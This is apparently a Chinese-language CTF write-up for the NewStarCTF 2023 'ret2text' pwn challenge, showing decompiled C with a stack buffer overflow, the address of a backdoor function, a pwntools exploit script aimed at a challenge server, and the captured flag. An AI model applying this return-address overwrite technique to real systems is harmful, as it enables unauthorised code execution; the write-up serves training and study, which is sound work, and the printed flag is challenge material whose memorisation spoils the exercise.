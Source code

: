 ```yaml
---
title: NewStarCTF 2023 ret2text
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

下载附件，用 IDA 64 打开，找到主函数并反汇编，得到如下伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  init(argc, argv, envp);
  puts("Welcome to NewStar CTF!!");
  puts("Show me your magic");
  read(0, buf, 0x100uLL);
  return 0;
}
```

发现 buf 能被接受 0x100 个字节，但长度只有 0x20 字节，会出现栈溢出

## 找 `/bin/sh`

按 Shift + F12 打开字符串查找，找到关键字符串 `/bin/sh`，进入后按 Ctrl + X 找到函数，再按一次 F5 反汇编，找到了关键函数 `int backdoor()`，该函数的地址为 `0x4011FB`

## 编写 Exp

```python
from pwn import *

r = remote("node4.buuoj.cn", 29897)
backdoor_addr = 0x4011FB  # 函数 backdoor() 的地址
payload = b"A"*(0x20+8) + pack(backdoor_addr, 64) # 20 是栈，8 是 dup
r.sendline(payload)
r.interactive()
```

## 攻入靶机

获得权限后，`ls` 和 `cat flag` 一条龙得出最后结果 `flag{efcf1300-9ac4-4a30-84d9-ca717d570428}`
